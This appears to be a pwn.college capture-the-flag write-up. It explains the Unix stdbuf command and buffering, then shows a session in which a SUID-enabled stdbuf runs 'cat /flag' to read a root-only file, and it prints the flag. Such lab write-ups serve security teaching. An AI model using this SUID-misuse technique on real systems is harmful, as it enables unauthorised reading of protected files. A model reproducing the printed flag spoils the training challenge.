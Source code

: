 `stdbuf`

The `stdbuf` command in Unix-like OS is used to modify the buffering operations of a specified command. It allows you to control the buffering behavior for standard input, output or error streams of other command.


> [!NOTE] Buffering
> After giving some inputs to a command, they go through the input stream and stored in a memory. This memory is called buffer memory. After filling the buffer memory, it flushes all the input and they go to the processor to be executed. Buffering maximizes the processor's potential. 
> 
> Why Buffering is important?
> 
> Processor is way faster than the I/O module. If you give it 1 input at a time, it will execute it at a lightning fast speed. And then it waits for the next input and become idle. The next input is coming through the input stream so slow that we are losing the processor's immense potential. That's why we first gather some input together in the buffer memory, make them a bundle and then give it to the processor. Like this, we are utilizing the processor's power.

Suppose, we have a program called `prog` that produces output, but the output appears buffered(not immediately shown on the terminal). We can use `stdbuf` to modify the buffering behavior.

```bash
stdbuf -o 0 prog
```

Here `-o` means output buffering, and `0` sets the output buffering to zero, disabling it, ensuring that the output is immediately displayed without waiting for a buffer to fill.

The `stdbuf` command can be useful in scenarios where you want to adjust the buffering behavior of a command, particularly when dealing with program output or input that might be buffered by default.

```bash
hacker@program-misuse-level-29:~$ cd /challenge/
hacker@program-misuse-level-29:/challenge$ ls
babysuid_level29
hacker@program-misuse-level-29:/challenge$ ./babysuid_level29 
Welcome to ./babysuid_level29!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/stdbuf.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level29) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/stdbuf!
hacker@program-misuse-level-29:/challenge$ stdbuf -o 0 cat /flag
pwn.college{YwNawK0jk9igpZAqpy90sKaPzJx.0VM3EDL0AjNzQzW}
```


